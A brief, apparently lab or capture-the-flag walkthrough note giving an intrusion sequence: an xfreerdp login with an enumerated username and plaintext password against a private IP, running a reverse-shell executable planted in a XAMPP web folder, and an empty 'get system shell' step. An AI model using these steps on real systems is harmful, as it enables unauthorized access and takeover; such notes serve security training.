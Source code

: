 use machine enum credential
```
xfreerdp /u:damon /p:i6yuT6tym@ /v:192.168.247.249 /cert:ignore
```

use revsehll
```
C:\xampp\htdocs\cms\media\a.exe
```

get system shell
```

```